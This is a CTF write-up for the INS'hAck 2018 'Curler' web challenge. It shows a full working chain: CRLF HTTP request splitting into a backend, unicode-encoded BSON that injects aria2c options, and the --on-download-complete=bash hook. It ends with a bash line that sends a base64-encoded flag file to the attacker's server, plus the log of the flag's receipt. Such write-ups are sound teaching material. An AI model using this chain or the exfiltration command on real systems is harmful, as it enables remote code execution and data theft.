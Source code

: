 ```yaml
---
layout: post
title:  "INS'hAck CTF 2018 - Curler"
date:   2018-04-09 12:46
categories: [INShAck2018]
tags: [Web]
author: jbz
---
```


>Show me some stats on my website! Have a look to my source code attached too!
>nc curler.ctf.insecurity-insa.fr 10001
>[source](https://static.ctf.insecurity-insa.fr/wrapper.py)

nc curler.ctf.insecurity-insa.fr 10001

```bash
Launching your app..
5..
4..
3..
2..
1..
Welcome to your FaaS (Fetcher as a Service)!
This program allows you to fetch some stats on a given web url.

Current config is:
URL to fetch: http://insecurity-insa.fr
Fetcher options: {'timeout': 2, 'connect timeout': 2, 'max tries': 5, 'dry run': False}

Please choose your action:
  1. Change the default configuration of our fetcher
  2. Choose the URL you want us to inspect
  3. Fetch!
  4. Exit

Choice?
```

From the source code we can observe a lot of limitations:

* `url_to_fetch` must be valid JSON
* `url_to_fetch` when parsed with `urlparse` must return the http scheme, a valid host and a path
* `fetcher_options` is very limited and strictly controlled
* The outbound request is not made by the script itself but sent via POST to a Flask backend (but sources are not provided)

Also, by using the service we can get these other informations:

* No response content is ever returned, only statistical data, so we only know if the request was succesfull or not
* The Flask backend application use aria2 to perform the requests:

```bash
connect to [jbzserver] from ip-147-135-133.eu [147.135.133.206] 57218
GET / HTTP/1.1
User-Agent: aria2/1.19.0
Accept: */*,application/metalink4+xml,application/metalink+xml
Host: jbzserver:8080
````

`aria2` is a C language lightweight download manager which supports a lot of protocols and options.
It looks like the client script sends aria2 parameters and the destination url to the backend which then probably uses them via `subprocess`. Given the parametrization of the parameters they are probably used correctly (i.e.: no command injection with ;$() etc) so we should check `aria2` manual to see if there is any option that can be useful. However before looking into the command execution we need to find a way to send our custom parameters to tha backend.

From the source code:

```python
def fetch():
    # Hit local flask server
    conn = HTTPConnection(fetcher_service, 8888)
    options = []
    for conf in fetch_options.values():
        options.append(conf["key"] + "=" + str(conf["value"]).lower())
    params = bson.dumps({
        "options": options
    })
    conn.request("POST", "/?url=" + url_to_fetch, params)
    response = conn.getresponse()
    print("Stats:")
    print(response.read().decode())
    print()
```

As we can see they're not using python's `request` library but the raw `http.client`. Since `url_to_fetch` is appended without any particular sanitizations (aparte from being parse by `urlparse`) it's possible to inject CRLF to perform and HTTP request Splitting:
in practice we could add some newline characters we changing the `url_to_fetch` parameter and modify the request with our own body and headers. By controlling the `Content-Type` header we are able to force the backend server to discard the additional body added by the script.

By running the original script locally in order to test the vulnerability we can see that using `"http://jbz.com/ HTTP/1.1\r\nheader: splitting-test"` as a url the backend would receive the following request:

```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 56362
POST /?url=http://jbz.com/ HTTP/1.1
header: splitting-test HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: identity
Content-Length: 109

moptions_0
          --timeout=21--connect-timeout=22--max-tries=53--dry-run=false

```

So the splitting does work.

However there's still a problem: the body of the request is being produced by the `bson.dumps` functions which hash a binary output which is not being encoded. Since our payload need to be loaded from the `url` config via the `json.loads` we can't directly send stuff like null bytes because JSON will fail. After a lot of testing we discovered that while `\x00` can't be used because it's a control character, it's unicode equivalent, `\u0000` is indeed valid.

The next step is to check the `aria2` manual to see if there are useful options:

From [the aria2c doc](http://aria2.github.io/manual/en/html/aria2c.html):

```bash
--on-download-complete=<COMMAND>

Set the command to be executed after download completed.
See See Event Hook for more details about COMMAND.
See also --on-download-stop option. Possible Values: /path/to/command
```

Let’s see an example of how arguments are passed to command:

``` bash
$ cat hook.sh
#!/bin/sh
echo "Called with [$1] [$2] [$3]"
$ aria2c --on-download-complete hook.sh http://example.org/file.iso
Called with [1] [1] [/path/to/file.iso]
```

The above options should help to achieve code execution but there are again limitations:

* `/path/to/command` needs the executable permissions which we cannot set
* The first argument of `/path/to/command` is the GID of the download

Luckly the GID of a download is random by default but it can be forced by the `--gid` option.
The following aria2c command succesfully execute the payload located at `http://jbzserver/a41b1d2f5a2c2da7`:

```bash
aria2c --on-download-complete=bash --gid=a41b1d2f5a2c2da7 http://jbzserver/a41b1d2f5a2c2da7 --dry-run=false
```

Here's the final payload prepared for the request splitting and unicode encoded:

```bash
"http://jbzserver:8080/a41b1d2f5a2c2da7 HTTP/1.1\r\nHost: localhost\r\nAccept-Encoding: identity\r\nContent-Length: 126\r\n\r\n\u007e\u0000\u0000\u0000\u0004\u006f\u0070\u0074\u0069\u006f\u006e\u0073\u0000\u0070\u0000\u0000\u0000\u0002\u0030\u0000\u0010\u0000\u0000\u0000\u002d\u002d\u0064\u0072\u0079\u002d\u0072\u0075\u006e\u003d\u0066\u0061\u006c\u0073\u0065\u0000\u0002\u0031\u0000\u001c\u0000\u0000\u0000\u002d\u002d\u006f\u006e\u002d\u0064\u006f\u0077\u006e\u006c\u006f\u0061\u0064\u002d\u0063\u006f\u006d\u0070\u006c\u0065\u0074\u0065\u003d\u0062\u0061\u0073\u0068\u0000\u0002\u0032\u0000\u000c\u0000\u0000\u0000\u002d\u002d\u0074\u0069\u006d\u0065\u006f\u0075\u0074\u003d\u0032\u0000\u0002\u0033\u0000\u0017\u0000\u0000\u0000\u002d\u002d\u0067\u0069\u0064\u003d\u0061\u0034\u0031\u0062\u0031\u0064\u0032\u0066\u0035\u0061\u0032\u0063\u0032\u0064\u0061\u0037\u0000\u0000\u0000\r\n\r\n"
```

For completeness, here's the payload:

```bash
#!/bin/bash
aria2c http://jbzserver:8080/?resp=$(cat flag.txt | base64 | tr -d '\n')
```

```bash
Serving HTTP on 0.0.0.0 port 8080 ...
213.32.74.44 - - [09/Apr/2018 10:23:37] "GET /a41b1d2f5a2c2da7 HTTP/1.1" 200 -
213.32.74.44 - - [09/Apr/2018 10:23:38] "GET /?resp=SU5TQXt3cm9uZ19saWJzX2NvbWJpbmF0aW9uP19vcl9iYWRfcHJvZ3JhbW1lcj99 HTTP/1.1" 200 -
```

The flag was `INSA{wrong_libs_combination?_or_bad_programmer?}`.
